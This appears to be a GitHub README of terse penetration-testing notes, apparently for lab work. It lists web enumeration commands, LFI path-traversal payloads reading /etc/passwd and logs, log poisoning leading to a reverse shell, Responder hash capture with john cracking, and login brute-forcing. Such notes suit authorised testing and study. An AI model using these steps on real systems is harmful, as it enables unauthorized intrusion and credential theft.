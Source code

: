 # Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check /robots.txt /sitemap.xml\
2.gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\    -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ \
3. nikto -h $IP 
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6.

# Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with ?file=index.php ?book=  (Possible vulnerabilities in source code)
3. book= ../../../../etc/passwd   (Hosting on **Window or apache )
4. ../../../../var/www/html/index.php  html to confirm log poisoning 
5. Add  ../ ../../../../ and check if the following following files exists.
6. /etc/passwd\ /var/log/mail/USER\  /var/log/apache2/access.log\  /proc/self/environ\  /tmp/sess_ID\ /var/lib/php5/sess_ID\ /var/log/auth/log\  
7. /windows/system32/drivers/etc/hosts (for **window host)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, lets log poision ../../../../var/log/apache2/access.log via invalid connection request.
9. Connect to nc -nv $IP port. and insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. check for sucessful log poisioning ../../../../var/log/apache2/access.log&cmd=i.
11. If you receive command execution, we will insert a reversshell via url encoding. Done.
12. Use responder to capture. sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url. Use john the ripper to match hash. 
13. john -w=/usr/share/wordlists/rockyou.txt hash.txt
 

## Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2

## XSS
